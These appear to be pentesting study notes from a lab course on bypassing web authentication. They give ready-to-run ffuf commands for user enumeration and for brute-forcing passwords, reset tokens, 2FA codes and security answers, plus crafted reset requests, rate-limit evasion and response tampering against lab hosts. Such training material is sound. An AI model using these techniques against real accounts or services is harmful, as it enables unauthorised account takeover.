```yaml
---
layout: default
title: Bypassing Authentication
permalink: /Web/bypass_auth/
---
```


We will mainly focus on knowledge-based authentication.

# User Enumeration
- Web applications could reveal whether a username exists or not by showing different error messages for the two cases or a chat application might show other users by username to chat with.
- A good starting point is the wordlist collection [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Usernames).
```
ffuf -w /path/to/xato-net-10-million-usernames.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```
- Side-channel attacks do not directly target the web application's response but rather extra information that can be obtained or inferred from the response, e.g. the time it takes for the web application's response to reach us.

# Brute-Forcing Passwords
Ensuring that a good wordlist is used for the attack is crucial.
If a web application enforces a password policy, we should ensure that our wordlist only contains passwords that match the implemented password policy.
```
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
```
wc -l custom_wordlist.txt
```
```
ffuf -w ./custom_wordlist.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```
# Brute-Forcing Password Reset Tokens
Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.
As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account. <br>
To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. <br>
In case of 4 digit reset token:
```
seq -w 0 9999 > tokens.txt
```
The -w flag pads all numbers to the same length by prepending zeroes.
Verify with `head token.txt`.
```
ffuf -w ./tokens.txt -u http://$domain/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
# Brute-Forcing 2FA Codes

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits.

```
seq -w 0 9999 > tokens.txt
```
```
ffuf -w ./tokens.txt -u http://$domain/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=mrjm73bh8e53qcej2744h7k44p" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
With that we will get hits after the session successfully passed the 2FA check because we had supplied the correct TOTP. The first hit was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to the logged in page.
## Rate Limits
A rate limit should only be enforced on an attacker, not regular users, to prevent DoS scenarios. Many rate limit implementation rely on the IP address to identify the attacker. However, there are middleboxes such as reverse proxies, load balancers, or web caches, a request's source IP address will belong to the middlebox, not the attacker. Thus, some rate limits rely on HTTP headers such as X-Forwarded-For to obtain the actual source IP address. This causes an issue as an attacker can set arbitrary HTTP headers in request, bypassing the rate limit entirely.
## CAPTCHAs
The abbreviation stands for: Completely Automated Public Turing test to tell Computers and Humans Apart, although these test could be solved with AI nowadays (see this [link](https://arstechnica.com/information-technology/2025/07/openais-chatgpt-agent-casually-clicks-through-i-am-not-a-robot-verification-test/)). There are many open-source CAPTCHA solvers too.

# Testing Default Credentials
[CIRT.net](https://www.cirt.net/passwords) is a database for default credentials. Further resources include [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub repository which contains a list of default passwords for a variety of different vendors.
You should always search for default credentials in case you find the used technology/device.

# Vulnerable Password Reset
## Guessable Password Reset Questions
These questions can often be obtained through OSINT or guessed, given a sufficient number of attempts, i.e., a lack of brute-force protection. <br>
For instance, [this](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.
```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```
We could narrow down the cities if we had additional information:
```
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```
Check:
```
wc -l german_cities.txt
```
Brute-force the answer:
```
ffuf -w ./german_cities.txt -u http://$ip:$port/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "<incorrect_response>"
```
## Manipulating the Reset Request
Another instance of a flawed password reset logic occurs when a user can manipulate a potentially hidden parameter to reset the password of a different account.
Suppose supplying the security response London results in the following request:
```
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```
So the username is contained in the form as a hidden parameter and sent along with the security response. Then we can reset the user's password and the final request looks like this:
```
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```
Like the previous request, the request contains the username in a separate POST parameter. Suppose the web application does properly verify that the usernames in both requests match. In that case, we can skip the security question or supply the answer to our security question and then set the password of an entirely different account.

# Direct Access
The most straightforward way of bypassing authentication checks is to request the protected resource directly from an unauthenticated context. It might work if the web application does not properly verify that the request is authenticated. <br>
To illustrate the vulnerability, let us assume the web application redirects the user to /index.php if the session is not active, i.e., if the user is not authenticated. However, the PHP script does not stop execution, resulting in protected information within the page being sent in the response body, so the entire admin page is contained in the response body. If we attempt to access the page in our web browser, the browser follows the redirect and displays the login prompt instead of the protected admin page. We can easily trick the browser into displaying the admin page by intercepting the response and changing the status code from 302 to 200. <br>
To do this, enable Intercept in Burp. Afterward, browse to the /admin.php endpoint in the web browser. Next, right-click on the request and select Do intercept > Response to this request to intercept the response. Afterward, forward the request by clicking on Forward. Since we intercepted the response, we can now edit it. To force the browser to display the content, we need to change the status code from 302 Found to 200 OK.

# Parameter Modification

Let's say after logging in as a user, we are redirected to `/admin.php?user_id=183`. To investigate the purpose of the user_id parameter, let us remove it from our request to /admin.php. When doing so, we are redirected back to the login screen at /index.php, even though our session provided in the PHPSESSID cookie is still valid.<br>
Based on the parameter name user_id, we can infer that the parameter specifies the ID of the user accessing the page. If we can guess or brute-force the user ID of an administrator, we might be able to access the page with administrative privileges.


